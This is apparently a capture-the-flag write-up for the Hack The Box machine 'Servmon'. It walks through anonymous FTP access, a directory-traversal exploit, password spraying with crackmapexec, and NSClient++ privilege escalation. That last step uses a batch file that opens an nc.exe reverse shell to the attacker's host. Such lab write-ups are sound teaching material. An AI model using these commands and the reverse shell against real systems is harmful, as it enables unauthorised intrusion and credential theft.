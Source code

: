 # Servmon

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.77
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 01:44 EDT
Nmap scan report for 10.129.227.77
Host is up (0.0077s latency).
Not shown: 65518 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5666/tcp  open  nrpe
6063/tcp  open  x11
6699/tcp  open  napster
8443/tcp  open  https-alt
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Loads of ports. This is an easy and old machine, so it shouldn't be too complex.

### Anonymous FTP

When I see FTP, the first thing I check for is anomymous logins. This works for this machine

```
$ ftp 10.129.227.77      
Connected to 10.129.227.77.
220 Microsoft FTP Service
Name (10.129.227.77:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49677|)
125 Data connection already open; Transfer starting.
02-28-22  07:35PM       <DIR>          Users
```

We can find 2 files, one `Confidential.txt` and a `Notes to do.txt`. Reading the confidential one highlights that there is a password file somewhere:

{% code overflow="wrap" %}
```
$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```
{% endcode %}

Great!&#x20;

### LFI

On port 80 and port 8443, there are HTTP and HTTPS sites presents respectively. Looking at port 80, we see this is running NVMS-1000:

<figure><img src="../../../.gitbook/assets/image (52) (5).png" alt=""><figcaption></figcaption></figure>

There are public exploits for these:

```
$ searchsploit nvms                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NVMS 1000 - Directory Traversal                             | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modific | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow          | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                         | hardware/webapps/48311.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Following the PoC, we can see it works:

<figure><img src="../../../.gitbook/assets/image (47) (6).png" alt=""><figcaption></figcaption></figure>

Great! Now, we can read the `password.txt` file that we found hints of earlier. Here are the passwords retrieved:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

With this, we can run a `crackmapexec` to brute force the possible passwords.&#x20;

```
./cme smb 10.129.227.77 -u /home/kali/htb/servmon/users -p /home/kali/htb/servmon/passwords
SMB         10.129.227.77   445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.129.227.77   445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
```

This would find that the credentials of `nadine:L1k3B1gBut7s@W0rk` is the right one. With these credentials, we can SSH into the machine as the `nmap` scan found earlier showed port 22 was open.

<figure><img src="../../../.gitbook/assets/image (49) (3) (2).png" alt=""><figcaption></figcaption></figure>

Then grab the user flag.

## Privilege Escalation

### NSClient++ Privilege Escalation

Earlier, I mentioned that port 8443 was running a HTTPS site and we have not enumerated it yet. This port had NSClient++ running on it:

<figure><img src="../../../.gitbook/assets/image (54) (3).png" alt=""><figcaption></figcaption></figure>

None of the functions work. Searching for public exploits works however:

```
$ searchsploit nsclient                     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution   | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                  | windows/local/46802.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The Privilege Escalation is the one I need now. Following the PoC, we first need to grab the administrator password:

```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

Then we need to download `nc.exe` to the machine and a `.bat` file that executes a reverse shell

```batch
@echo off
c:\Windows\Tasks\nc.exe 10.10.14.2 4444 -e cmd.exe
```

Then we need to login, but for some reason the application is blocking me. When we check the `nsclient.ini` configuration file, we see that it only allows `localhost` to access the services:

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
ï»¿# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

So we need to do some port forwarding using `ssh`.&#x20;

```
ssh nadine@10.129.227.77 -L 8443:127.0.0.1:8443
```

Then we can access the site and continue.&#x20;

<figure><img src="../../../.gitbook/assets/image (159) (4).png" alt=""><figcaption></figcaption></figure>

Login using the administrator password we found earlier. There are automated PoCs for this:

{% embed url="https://packetstormsecurity.com/files/157306/NSClient-0.5.2.35-Authenticated-Remote-Code-Execution.html" %}

We can run it like so after downloading the relevant files onto the machine:

```bash
python3 pe.py -t 127.0.0.1 -P 8443 -p 'ew2x6SsGTxjRwXOT' -c "c:\Windows\Tasks\evil.bat"
```

<figure><img src="../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

Rooted!
